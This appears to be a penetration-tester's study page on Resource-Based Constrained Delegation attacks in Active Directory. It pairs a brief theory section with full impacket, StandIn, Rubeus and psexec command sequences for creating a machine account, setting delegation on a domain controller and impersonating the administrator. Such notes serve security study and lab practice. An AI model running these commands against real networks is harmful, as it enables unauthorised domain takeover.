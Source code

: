 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Resource-Based

{% hint style="info" %}
All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=vlKwCTvp5_w) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You_do_\(not\)_Understand_Kerberos_Delegation.pdf).
{% endhint %}

## Theory

The trust is configured on the servive that receives delegated credentials (`msDS-AllowsToActOnBehalfOfOtherIdentity`), in this case, `sql01` instead of `web01` (Figure 1). We configure `sql01` to trust `web01` which means that the latter will be able to access the former on behalf of anyone; `web01` has `GenericAll` over `sql01`.

<figure><img src="../../../../.gitbook/assets/delegations_rbcd_vs_rcd.png" alt="" width="563"><figcaption><p>Figure 1: The main difference between CD and RBCD (<em>image taken from</em> <a href="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html"><em>here</em></a><em>)</em>.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/rbcd_wireshark.png" alt=""><figcaption><p>Figure 2: The RBCD process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>)</em>.</p></figcaption></figure>

## Exploitation

### Prerequisites

1. A domain account with `WRITE` access to the target SPN account for setting the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to it.
2. Permission to create a SPN account (`MachineAccountQuota`).

### Attack

1. Create a fake computer.
2. Set `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target.
3. Request impersonated Service Tickets (`S4U`) for the target computer.

#### Linux

{% code overflow="wrap" %}
```bash
# add a machine account
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-ip <ip> '<domain/user:pass>'
# set rbcd attribute
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' '<domain/user:pass>' -dc-ip 10.10.11.174
# generate ST for the admin account
impacket-getST -spn 'cifs/<fqdn>' -impersonate 'administrator' 'domain/ATTACKERSYSTEM$:Summer2018!'
```
{% endcode %}

For an example of the above process check [Support](../../../../boxes/easy/support.md#rbcd).

#### Windows

```powershell
# create a computer account
.\StandIn.exe --computer <name> --make
# get the SID of the computer account
Get-ADComputer -Filter * | Select-Object Name, SID
# set the RBCD attribute
.\StandIn.exe --computer <dc> --sid <sid>
```

We need the value of the password md4-encrypted for Rubeus.

```bash
python3
>>> import hashlib,binascii
>>> hash = hashlib.new('md4', "<pass>".encode('utf-16le')).digest()
>>> print(binascii.hexlify(hash))
```

{% code overflow="wrap" %}
```powershell
# generate the ST
.\Rubeus.exe s4u /user:<name> /rc4:<value> /impersonateuser:administrator /msdsspn:cifs/<fqdn> /nowrap /ptt
```
{% endcode %}

Although the ticket is generated, it does not work locally. Copy paste the b64 encoded block locally, decode it, convert it, and then use it.

```bash
# paste the ticket
nano ticket.b64
# decode it
cat ticket.b64 | base64 -d > ticket.kirbi
# convert it from kirbit to ccache for Linux usage
impacket-ticketConverter ticket.kirbi ticket.ccache
# export the ticket
export KRB5CCNAME=<ticket-path>
# use the ticket
impacket-psexec -k -no-pass <domain>/administrator@<fqdn> -dc-ip <ip>
```

## Resources

* A great lecture about Resource-Based Constrained Delegation ([video](https://www.youtube.com/watch?v=vlKwCTvp5_w))
* A nice box walkthough based on Resource-Based Constrained Delegation ([video](https://www.youtube.com/watch?v=xMTCZt5DRB0))
* In-depth article about Resource-Based Constrained Delegation ([article](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html))

